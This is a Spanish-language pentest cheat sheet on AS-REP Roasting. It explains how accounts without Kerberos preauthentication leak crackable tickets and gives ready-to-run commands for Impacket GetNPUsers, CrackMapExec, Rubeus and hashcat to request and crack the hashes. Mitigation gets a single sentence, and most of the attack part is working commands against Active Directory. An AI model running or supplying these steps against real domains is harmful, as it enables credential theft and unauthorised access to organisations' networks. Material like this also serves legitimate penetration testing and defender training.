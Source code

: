 # ASREProstable 

Tags: #AD #ASREProstable #Rubeus #Impacket #Crackmapexec #HashCat #Windows 

El "KRB_AS_REP Roasting" es un ataque dirigido a cuentas en dominios de Active Directory (AD) que tienen habilitada la opción "No requiere preautenticación de Kerberos". Esta configuración permite a un atacante solicitar un ticket de autenticación (AS-REP) sin proporcionar una preautenticación válida. El atacante puede capturar este ticket y descifrarlo fuera de línea para intentar recuperar las contraseñas en texto claro de las cuentas afectadas. Este método explota configuraciones inseguras y puede ser mitigado desactivando dicha propiedad en las cuentas y aplicando contraseñas fuertes junto con políticas de monitoreo.

* [CVE-2022-33679](https://infayer.com/archivos/1661)

```bash 
1. Preautenticación de Kerberos: Normalmente, Kerberos requiere que un usuario proporcione no solo su nombre de usuario sino también su contraseña para obtener un ticket TGT (Ticket Granting Ticket) durante el proceso de autenticación inicial (AS-REQ). Esta es una medida de seguridad diseñada para prevenir ataques de tipo "offline" en los que se intenta adivinar las contraseñas.
    
2. Cuentas sin Preautenticación: Sin embargo, en algunos casos, esta propiedad puede estar deshabilitada para ciertas cuentas debido a necesidades de compatibilidad o configuraciones erróneas. Esto significa que el KDC (Key Distribution Center) enviará la respuesta (AS-REP) que contiene el TGT cifrado sin requerir una prueba válida de conocimiento de la contraseña del usuario.

# Funcionamiento 

1. Enumeración de Usuarios: Un atacante primero enumerará las cuentas de usuario que tienen deshabilitada la preautenticación de Kerberos.
    
2. Solicitud de TGT: Luego, el atacante puede enviar una solicitud AS-REQ para esas cuentas y el KDC responderá con un AS-REP que contiene el TGT cifrado usando la contraseña del usuario.
    
3. Ataque Offline: A diferencia de un ataque de fuerza bruta online, el atacante puede ahora intentar descifrar el TGT offline, utilizando herramientas de cracking de contraseñas para adivinar la contraseña sin alertar al sistema o bloquear la cuenta de usuario.
```


```bash 
# Ejemplo de un hash 

❯ $krb5asrep$23$asrep.user@domain1.corp:0939461A3CF12B34FC2EEDE8C8154E15$55613643FA62AB315871CFD9B90978AB2D3...
```

## Explotar con Impacket

```bash 
❯ impacket-GetNPUsers -no-pass -usersfile users.txt domain.corp/        # Ataque usando un lista de usuarios 

❯ impacket-GetNPUsers 'domain1.corp/asrep.user' -no-pass -dc-ip 18.116.10.36 -request

	# domain1.corp/asrep.user = Usuario vulnerable o lista de usuarios 
	# no-pass = No hay una contraseña 
	# dc-ip = Ip del DC
```

## Explotar con CrackMapExec

```bash 
❯ ./cme ldap 18.116.10.36 -u 'clearpass.user' -p 'Password@1' --asreproast output.txt
```

## Explotar con Rubeus 

```powershell
❯ .\Rubeus.exe asreproast /user:asrep.user /format:hashcat /outfile:hashes.asreproast 

	# user = Usuario vulnerable
	# outfile = Exportar a un archivo 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 --force hashes.asreproast /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```